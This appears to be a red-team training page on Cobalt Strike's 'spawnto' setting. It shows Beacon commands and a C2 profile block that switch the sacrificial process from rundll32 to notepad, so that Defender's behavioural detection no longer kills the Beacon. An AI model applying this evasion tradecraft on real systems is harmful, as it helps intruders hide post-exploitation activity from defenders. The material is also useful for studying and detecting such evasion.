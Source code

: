 # SpawnTo

Cobalt Strike's `spawnto` value controls which binary is used as a temporary process for various post-exploitation workflows.  Execute this PowerShell one-liner using `powerpick` and keep an eye on Process Hacker.
```
beacon> powerpick Start-Sleep -s 30
```

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/evasion/spawnto/rundll32.png)

We'll see that rundll32 is spawned as a child of the current Beacon process (in this case, PowerShell).  This is Cobalt Strike's default spawnto and is highly monitored as arbitrary processes spawning rundll32 is not a normal occurrence.  In fact, you will probably find that Defender kills your Beacon (note the PID correlation).  This is a behavioural detection and is not circumvented using AMSI bypasses in Beacon.

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/evasion/spawnto/rundll32-blocked.png)

You can change the spawnto binary for an individual Beacon during runtime with the `spawnto` command.  There is a separate configuration for x86 and x64.
```
beacon> help spawnto
Use: spawnto [x86|x64] [c:\path\to\whatever.exe]


Sets the executable Beacon spawns x86 and x64 shellcode into. You must specify a
full-path. Environment variables are OK (e.g., %windir%\sysnative\rundll32.exe)

Do not reference %windir%\system32\ directly. This path is different depending
on whether or not Beacon is x86 or x64. Use %windir%\sysnative\ and 
%windir%\syswow64\ instead.

Beacon will map `%windir%\syswow64\` to system32 when WOW64 is not present.
```

Obviously, the idea is to pick something that would not be out of place for the current Beacon context.  For demonstration purposes, let's spawn a new Beacon and change it to Notepad.
```
beacon> spawnto x64 %windir%\sysnative\notepad.exe
beacon> powerpick Start-Sleep -s 30
```

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/evasion/spawnto/notepad.png)

This time, the Beacon survives.  There is nothing special happening here - Beacon uses the CreateProcess API to start whatever spawnto it's configured with.  If you want to set the default spawnto in your C2 profile, you can do so in the post-ex block.
```json
post-ex {
    set spawnto_x86 "%windir%\\syswow64\\notepad.exe";
    set spawnto_x64 "%windir%\\sysnative\\notepad.exe";
}
```
